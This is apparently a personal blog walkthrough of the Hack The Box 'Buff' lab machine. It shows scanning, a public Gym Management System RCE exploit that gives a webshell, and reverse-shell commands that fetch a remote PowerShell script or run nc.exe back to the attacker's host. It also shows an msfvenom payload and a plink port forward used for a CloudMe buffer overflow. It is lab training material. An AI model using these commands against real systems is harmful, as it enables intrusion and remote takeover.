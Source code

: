 ```yaml
---
layout: post
title: HTB Buff Walkthrough
categories: [HTB, OSCP]
---
```


As I was dedicated to place one box every day i was planning to put another box. I hit hard bottom for some reason exploit is not working and I have no clue how to move now. So i decide to take break on this machine and try break another one in few hours in night and try write blog about this. And here we are. Please enjoy this box as I did :)

![](/images/buff-htb/logo.png)

I started with simple nmap script

```bash
nmap -sC -sV -oA nmap/inital -Pn 10.10.10.198
# Nmap 7.91 scan initiated Mon Feb  1 22:17:42 2021 as: nmap -sC -sV -oA nmap/inital -Pn 10.10.10.198
Nmap scan report for 10.10.10.198
Host is up.
All 1000 scanned ports on 10.10.10.198 are filtered

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb  1 22:21:04 2021 -- 1 IP address (1 host up) scanned in 202.13 seconds
```

Scan did not show any ports which was really strange. Ok try nmap on all TCP ports

```bash
nmap -p - -oA nmap/allports -Pn 10.10.10.198
# Nmap 7.91 scan initiated Mon Feb  1 22:22:06 2021 as: nmap -p - -oA nmap/allports -Pn 10.10.10.198
Nmap scan report for 10.10.10.198
Host is up (0.15s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE
8080/tcp open  http-proxy

# Nmap done at Mon Feb  1 22:27:07 2021 -- 1 IP address (1 host up) scanned in 301.37 seconds
```

One port open 8080 as http-proxy. I open firefox and navigate to this site on this port

![](/images/buff-htb/01-signature.png)

Website looks like CMS site but signature on this website was quite different.. Google for this name.

![](/images/buff-htb/02-gym-exploit.png)

Bingo! There is an exploit for it. Also check in searchsploit.

```bash
searchsploit gym management
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Gym Management System 1.0 - 'id' SQL Injection                                     | php/webapps/48936.txt
Gym Management System 1.0 - Authentication Bypass                                  | php/webapps/48940.txt
Gym Management System 1.0 - Stored Cross Site Scripting                            | php/webapps/48941.txt
Gym Management System 1.0 - Unauthenticated Remote Code Execution                  | php/webapps/48506.py
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Unauthenticated Remote COde Execution? That sounds like gun i need :) 

```bash
python 48506.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload>
```

I was in. Tried to get proper shell now. *powershell -c "IEX(new-object net.webclient).downloadstring('http://10.10.14.9/shell.ps1')" *
did not work :/

```powershell
C:\xampp\htdocs\gym\upload> \\10.10.14.9\smb\nc.exe -e cmd.exe 10.10.14.9 9001
```

Try to run nishang shell now as i can see output. I also can just run -e with powershell.exe. 
```powershell
C:\xampp\htdocs\gym\upload>powershell -c "IEX(new-object net.webclient).downloadstring('http://10.10.14.9/shell.ps1')"
powershell -c "IEX(new-object net.webclient).downloadstring('http://10.10.14.9/shell.ps1')"
IEX : At line:1 char:1
+ function Invoke-PowerShellTcp
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.                              
At line:1 char:1
+ IEX(new-object net.webclient).downloadstring('http://10.10.14.9/shell ... 
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
     + CategoryInfo          : ParserError: (:) [Invoke-Expression], ParseException
     + FullyQualifiedErrorId : ScriptContainedMaliciousContent,Microsoft.PowerShell.Commands.InvokeExpressionCommand
```

So it was AMSI that blocked me. Looking around home directory I found application called clouedme

```cmd
C:\Users\Administrator\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\Users\Administrator\Downloads

18/07/2020  16:36    <DIR>          .
18/07/2020  16:36    <DIR>          ..
16/06/2020  15:46        17,830,824 CloudMe_1112.exe
               1 File(s)     17,830,824 bytes
               2 Dir(s)   7,882,407,936 bytes free
```

Quick google search reveal that this version contain buffer overflow exploit. 

![](/images/buff-htb/03-bof-root.png)

i checked for first exploit. Looking for the exploit it need to connect on port 8888. 

```cmd
C:\Users\Administrator\Downloads>netstat -ano | findstr 8888      
netstat -ano | findstr 8888
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       756
```

Our exploit contain POC for pop-up calc on desktop which did not make any sense for us. We decide to change payload to reverse shell
```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.9 LPORT=9002 =b '\x00\x0A\x0D' -f python
```

Replace shellcode with new one generated. Now i need to expose localhost port me as i was not planning to install python on this machine. I used plink.exe. (there is an issue with plink.exe default on machine. Always download latest version from website)

PS C:\users\shaun\downloads> .\plink.exe -R 8888:127.0.0.1:8888 -P 4222 root@10.10.14.9

I had to use non standard port as HTB will not allow to connect on port 22.

After that just lunch me netcat session and execute python script

![](/images/buff-htb/04-root.png)
